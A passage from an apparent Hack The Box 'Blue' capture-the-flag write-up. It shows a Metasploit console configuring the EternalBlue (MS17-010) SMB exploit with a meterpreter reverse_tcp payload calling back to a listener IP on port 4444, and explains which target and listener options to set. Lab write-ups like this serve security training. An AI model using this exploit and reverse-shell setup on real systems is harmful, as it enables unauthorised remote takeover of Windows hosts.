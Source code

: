 There's a few options we need to set before we can run the exploit:

```shell-session
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     167.99.201.13    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >>
```

Some of these are optional, and others have been populated for us by Metasploit.
We'll set the following options:

* The value for `RHOSTS` needs to be set to the hostname of the machine we're
  attacking, i.e. `blue.htb`.
* We need to set `LHOST` to point to our machine. We can do this by setting the
  network interface we use to connect to the target, `tun0`.
* Finally, we also need to set `SMBDomain` to `WORKGROUP\x00`, the workgroup
  determined through our enumeration work above.
